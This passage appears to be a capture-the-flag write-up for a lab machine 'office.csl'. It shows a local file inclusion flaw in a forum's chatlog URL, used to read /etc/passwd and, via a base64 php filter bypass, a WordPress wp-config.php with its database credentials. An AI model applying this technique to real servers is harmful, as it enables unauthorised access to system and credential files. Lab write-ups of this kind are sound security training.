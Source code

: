 We access the forum...it's Hilarious! 

the chatlog page url looks like this

`http://forum.office.csl/chatlogs/chatlogs.php?file=chatlog.txt`

Found it yet? yes LFI it is!!

reading `/etc/passwd` we get 2 users (except root of course)

```
ryan:x:1000:1000:ryan:/home/ryan:/bin/bash
dwight:x:1001:1001:Dwight Schrute,,,:/home/dwight:/bin/bash
``` 

As it is a wordpress installation maybe we can read `wp-config.php`

Or we can use `wpscan` to enumerate it faster

the ssl certificate in nmap got `dwight email` as `dwight@office.csl` it may be valid for wordpress...now we need his password

Anyway we try to read `/var/www/html/wordpress/wp-config.php` bypassing the `php filter` by base64-encoding the result

```
Then we decode it

<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'password' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
```